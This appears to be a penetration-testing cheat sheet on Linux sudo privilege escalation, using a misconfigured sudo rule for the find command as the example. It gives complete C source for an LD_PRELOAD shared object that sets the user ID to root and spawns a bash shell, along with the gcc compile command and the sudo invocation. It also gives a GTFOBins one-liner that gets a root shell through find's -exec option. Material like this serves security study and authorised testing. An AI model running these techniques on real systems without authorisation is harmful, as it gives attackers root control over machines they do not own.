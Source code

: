 # Sudo

Suppose for the below examples, the low-privileged user is allowed to  run the `find` command with _sudo_ privileges

```bash
$ sudo -l
Matching Defaults entries for [] on ...:
    env_reset, mail_badpass,
    ...

User [] may run the following commands on ...:
     ...
    (ALL) NOPASSWD: /usr/bin/find
    ...
```

## LD\_PRELOAD env variable

> LD\_PRELOAD is an environment variable in Linux that allows you to force the system to load specific shared libraries before any other libraries when running a program.

### Example

C code which simply spawns a root shell

`shell.c`

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

Using `gcc` to compile the C code into a shared object file:

{% embed url="https://man7.org/linux/man-pages/man1/gcc.1.html" %}

```bash
$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

1. `-fPIC`

> If supported for the target machine, emit position-independent code, suitable for dynamic linking and avoiding any limit on the size of the global offset table.

2. `-shared`

> Produce a shared object which can then be linked with other objects to form an executable

3. `-nostartfiles`

> Do not use the standard system startup files when linking

Run the `find` command with `LD_PRELOAD` set as the previously created shared object file. This essentially executes the C code to spawn the root shell.

```bash
$ sudo LD_PRELOAD=.../shell.so find
```

## Binaries with sudo privileges&#x20;

Suppose the binary with sudo privilege is `/usr/bin/find`

```bash
$ sudo find . -exec /bin/sh \; -quit
```

Adapted from: [https://gtfobins.github.io/gtfobins/find/#sudo](https://gtfobins.github.io/gtfobins/find/#sudo)
